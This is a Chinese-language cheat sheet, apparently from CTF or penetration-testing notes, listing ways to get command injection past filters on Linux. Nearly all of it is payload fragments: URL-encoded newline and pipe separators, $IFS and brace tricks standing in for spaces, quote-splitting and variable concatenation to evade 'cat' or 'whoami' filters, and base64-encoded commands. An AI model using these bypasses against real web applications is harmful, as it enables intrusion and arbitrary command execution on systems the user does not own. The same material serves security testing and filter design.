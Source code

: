 ## Linux

### 分隔符的限制

```php
1.换行符         %0a
2.回车符         %0d(利用fuzz测试从%00-%ff)
3.连续指令       ;
4.后台进程       &                 # java -jar test.jar &  表示进行放到后台执行，无法被ctrl+c杀死
5.管道符         |           # echo 'ls' | bash
6.逻辑符         ||  &&          # skjkfj||ls  由于前面命令不存在而为假，转而执行后面的ls
```

### 空白符的限制

```php
<
$IFS
${IFS}
$IFS$(1-9)                                  #从1到9，可以进行fuzz
{cat,flag.txt}
%09 用于url传递，类似于%09代替空格
```

### 过滤关键词cat

```php
less, tac, more, less, head, tail, nl, od        # 命令代替
ca""t
ca''t
ca``t
ca\t
a=c;b=at;$a$b xxx.php                            # 变量拼接
c${u}at                                          # 因为c$uat 系统不知道你要执行的是$u还是$uat，因此加上界定符，命令成功运行
l`$u`s
wh$1oami
who$@ami
whoa$*mi
```

```php
a=l;b=s;$a$b                                   # 变量拼接
echo d2hvYW1p | base64 -d`                     # base64编码
substr string pos end                          # 利用字符串切割得到我们想要的字符，但是这种方法的利用考虑尝试.sh文件,未复现
echo ${PATH:0:1} # 分割获取从0开始获取1个字符，这里是这个意思
echo "`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`"
echo "`expr${IFS}substr${IFS}$PWD${IFS}1${IFS}1`"   => $PWD 代表环境变量
expr${IFS}substr${IFS}$SESSION_MANAGER${IFS}14${IFS}1
$u                                            # $u在Linux中代表的是空字符串，并不是代表是空格,这里有一些好玩的技巧
c${u}at index$u.php$u
c`$u`at index$u.php$u
```
